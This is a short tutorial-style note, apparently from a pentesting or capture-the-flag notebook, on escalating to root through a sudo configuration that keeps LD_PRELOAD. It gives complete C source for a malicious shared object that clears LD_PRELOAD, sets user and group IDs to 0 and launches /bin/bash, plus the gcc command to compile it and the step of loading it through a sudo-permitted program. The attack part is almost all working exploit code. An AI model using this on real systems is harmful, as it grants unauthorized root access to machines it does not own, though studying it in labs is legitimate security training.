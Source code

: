 ![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


This means we can run a script before any other libraries. When you run sudo -l and see this output do the following:


```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
* save file as [x].c so it can be compiled.
* This code includes standard io,sys types, and standard libraries.
* Then it unsets the library preload which is LD_PRELOAD.
* Then set setgid and setuid to zero which is root.
* Then the system executes /bin/bash.


```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

* compile with gcc
* -fPIC - means regardless where your shell addressing is this is going to function.

![image](https://user-images.githubusercontent.com/96658935/147623630-592e8830-8d78-4622-8b83-17850228b9e2.png)

Now that it's compiled you can run it with one of the sudo-l commands and get root
